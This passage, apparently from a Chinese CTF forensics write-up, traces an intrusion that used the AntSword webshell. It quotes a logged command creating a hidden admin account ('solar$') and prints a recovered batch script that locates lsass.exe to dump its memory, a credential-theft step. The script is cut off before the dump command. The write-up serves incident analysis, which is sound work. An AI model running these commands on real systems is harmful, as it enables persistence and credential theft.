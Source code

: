 - 连接工具：`Antsword.exe`
- 位置：`C:\Tools\AntSword-Loader-v4.0.3-win32-x64\AntSword.exe`

### 4. 获取到的 FLAG

在管理员用户桌面可找到 flag 为 `flag{ok!get_webshell_is_good_idea~}`。

![](img/07/admin-flag.png)

### 5 - 7: 对外攻击

查找浏览器痕迹，在 `C:\Users\Administrator\AppData\Local\Microsoft\Internet Explorer\Recovery\High\Active` 中可找到名为“图床程序”的网站 `http://192.168.186.140`。入侵时使用的系统用户名即为当前用户名 `Administrator`。

`C:\Users\Administrator\AppData\Roaming\AntSword\Local Storage\leveldb` 的日志文件中有部分蚁剑操作日志，其中执行了 `net user solar$ solar2025 /add`，对应的账户密码为 `solar2025`。

### 8 - 10: 靶机操作程序

在残存的日志中发现 `dump_lass.bat` 这一批处理文件名，应该是在远程靶机执行的，但仍在内存中寻找到了该文件：

```batch
@echo off
echo [*] 正在获取 lsass.exe PID...

for /f "tokens=2 delims=," %%a in ('tasklist /FI "IMAGENAME eq lsass.exe" /FO CSV /NH') do (
    set PID=%%~a
)

if "%PID%"=="" (
    echo [!] 未找到 lsass.exe 进程，或没有权限。
    pause
    exit /b 1
)

echo [*] PID: %PID%
echo [*] 正在尝试导出内存转储...

set OUTPUT=%~dp0lsass.dmp
```
